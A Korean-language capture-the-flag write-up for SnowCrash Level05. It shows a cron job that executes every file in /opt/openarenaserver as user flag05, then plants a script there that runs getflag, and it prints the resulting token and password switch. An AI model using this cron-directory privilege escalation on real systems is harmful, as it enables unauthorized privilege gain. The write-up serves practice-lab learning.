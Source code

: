 # Level05

## 메일확인

```zsh
level05@SnowCrash:~$ ls /var/mail
level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

2분마다 /usr/sbin/openarenaserver 스크립트를 flag05 권한으로 실행한다는 내용입니다.

## /usr/sbin/openarenaserver

```sh
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

이 스크립트는 /opt/openarenaserver/ 디렉토리 내의 모든 파일을 반복적으로 실행하고, 각 파일을 실행할 때 CPU 시간 제한을 5초로 설정합니다. 그런 다음 실행이 완료된 파일은 제거됩니다.

## /opt/openarenaserver 내부에 getflag실행 파일 만들기

```sh
level05@SnowCrash:~$ mkdir /tmp/level05
level05@SnowCrash:~$ vim /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```

```zsh
level05@SnowCrash:/tmp/level05$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/tmp/level05$ su level06
Password:
level06@SnowCrash:~$
```
